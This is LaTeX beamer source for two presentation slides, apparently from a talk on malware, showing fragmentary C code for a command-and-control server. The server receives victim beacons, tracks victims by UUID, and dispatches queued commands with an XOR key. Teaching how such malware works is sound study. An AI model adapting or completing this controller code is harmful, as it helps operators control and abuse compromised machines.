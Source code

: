 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Handling Victim Sessions 0}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        void *net_t_client(void *args){
          net_t_client_args_t *p_args = args;
          int sock = p_args->client_fd;
          net_client_beacon_t **p_victims = p_args->p_victims;
          net_server_beacon_t **p_commands = p_args->p_commands;
          net_client_beacon_t *p_net_client_beacon = malloc(sizeof(net_client_beacon_t));
          net_server_beacon_t *p_net_server_beacon = malloc(sizeof(net_server_beacon_t));
          while (true){
            bool command = false;
            int read = recv(sock, p_net_client_beacon, sizeof(net_client_beacon_t), 0);
            if (!read){ break; }
            if (read < 0){
              fprintf(stderr, "[-] %s\n", strerror(errno));
              free(p_net_client_beacon);
              pthread_exit(NULL);
            }
            net_update_victims(p_net_client_beacon, p_victims);
            // contuned ...
          }
        }
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Handling Victim Sessions 1}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        for (int i = 0; i < NET_MAX_CLIENTS; i++){
          if (p_commands[i] != NULL &&
              (strcmp(p_net_client_beacon->sysinfo.uuid, // Check Victim UUID
              p_commands[i]->uuid) == 0)){
            command = true;
            if (send(sock, p_commands[i], sizeof(net_server_beacon_t), 0) < 0){
              fprintf(stderr, "[-] %s\n", strerror(errno));
            }
            net_remove_commands(p_commands[i], p_commands); // Command Sent to Victim
          }
        }
        if (command == false){
          p_net_server_beacon->xor_key = DEFS_XOR_KEY; // Set Packet XOR Key
          p_net_server_beacon->status = true;
          if (send(sock, p_net_server_beacon, sizeof(net_server_beacon_t), 0) < 0){
            fprintf(stderr, "[x] %s\n", strerror(errno));
            free(p_net_server_beacon);
            free(p_net_client_beacon);
            pthread_exit(NULL);
          }
        }
      }
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\end{document}
